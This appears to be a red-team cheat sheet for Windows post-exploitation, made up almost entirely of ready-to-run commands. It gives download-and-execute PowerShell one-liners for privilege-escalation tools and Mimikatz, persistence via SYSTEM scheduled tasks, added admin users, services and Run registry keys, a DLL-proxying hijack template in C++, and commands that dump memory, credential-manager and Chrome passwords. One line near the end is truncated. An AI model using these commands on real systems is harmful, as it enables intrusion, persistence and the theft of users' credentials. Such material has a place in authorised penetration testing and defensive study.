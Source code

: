 ## Privilege Escalation

### PowerUp
```
IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1')
Invoke-AllChecks
```

### SharpUp
```
https://github.com/GhostPack/SharpUp
```

### Sherlock
```
IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/rasta-mouse/Sherlock/master/Sherlock.ps1')
Find-AllVulns
```

### Watson
```
https://github.com/rasta-mouse/Watson
```

## Persistence

### Create new task
```
schtasks /create /sc minute /mo 1 /tn "eviloo" /tr C:\shell.exe /ru "SYSTEM"
schtasks /create /sc onlogon /tn "task-name" /tr "File" /ru "username"
```

### Add User
```
net user testuser P@ssw0rd /add
net localgroup administrators testuser /add
```

### Create Service
```
sc create evilsvc binPath= "c:\Windows\System32\calc.exe" start= "auto"
```

### Registry Keys
```
REG ADD HKEY_CURRENT_USER\SOFTWARE\Microsoft\CurrentVersion\Run /v test /d "C:\shell.exe"
REG ADD HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\CurrentVersion\Run /v test /d "C:\shell.exe"
```

### StartUp Folder (Run(shell:startup))
```
C:\Users\Hassan.saad\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
```

### DLL Proxying

![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/HostEnumeration/Images/Screen2.png?raw=true)

Create legitimate.cpp file.

```
#include "pch.h"
​
BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
​
extern "C" __declspec(dllexport) VOID exportedFunction1(int a)
{
    MessageBoxA(NULL, "Hi from legitimate exportedFunction1", "Hi from legitimate exportedFunction1", 0);
}
​
extern "C" __declspec(dllexport) VOID exportedFunction2(int a)
{
    MessageBoxA(NULL, "Hi from legitimate exportedFunction2", "Hi from legitimate exportedFunction2", 0);
}
​
extern "C" __declspec(dllexport) VOID exportedFunction3(int a)
{
    MessageBoxA(NULL, "Hi from legitimate exportedFunction3", "Hi from legitimate exportedFunction3", 0);
}
```

```
# Compile
"c:\Program Files\CodeBlocks\MinGW\bin\g++.exe" -shared c:\legitimate.cpp -o c:\legitimate.dll
​
# Execute
rundll32 c:\legitimate.dll,exportedFunction1
```

Create malicious DLL to redirect the execution to the legitimate DLL.

```
#include "pch.h"
​
// Redirect the execution to the legitimate DLL
#pragma comment(linker, "/export:exportedFunction1=legitimate.exportedFunction1")
#pragma comment(linker, "/export:exportedFunction2=legitimate.exportedFunction2")
#pragma comment(linker, "/export:exportedFunction3=legitimate.exportedFunction3")
​
BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
    {
        // Insert your malicious code here
        MessageBoxA(NULL, "Hi from malicious dll", "Hi from malicious dll", 0);
    }
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

```
# Compile
"c:\Program Files\CodeBlocks\MinGW\bin\g++.exe" -shared c:\malicious.cpp -o c:\malicious.dll

# Execute
rundll32 c:\malicious.dll,exportedFunction1
```

Now when the call comes to malicious.dll it will forward this call to legitimate.dll

## Collecting Credentials

### Memory Credentials Dump
```
IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/hassan0x/test/master/mim.ps1')
Invoke-Mimikatz -Command 'privilege::debug'
Invoke-Mimikatz -Command 'sekurlsa::logonpasswords'
```
![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/HostEnumeration/Images/Screen1.png?raw=true)

### Windows Credentials Manager
```
IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/peewpw/Invoke-WCMDump/master/Invoke-WCMDump.ps1')
Invoke-WCMDump
```

### Web Credentials Manager
```
IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Get-WebCredentials.ps1')
Get-WebCredentials
```

### Chrome Passwords
```
https://github.com/ohyicong/decrypt-chrome-passwords/raw/main/decrypt_chrome_password.exe
```

### Chrome History
```
IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/collection/Get-ChromeDump.ps1')
Get-ChromeDump > chromepwds.txt
```

### Other Saved Credentials
```
System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/Arvanaghi/SessionGopher/master/SessionGopher.ps1')
Invoke-SessionGopher -Thorough
```
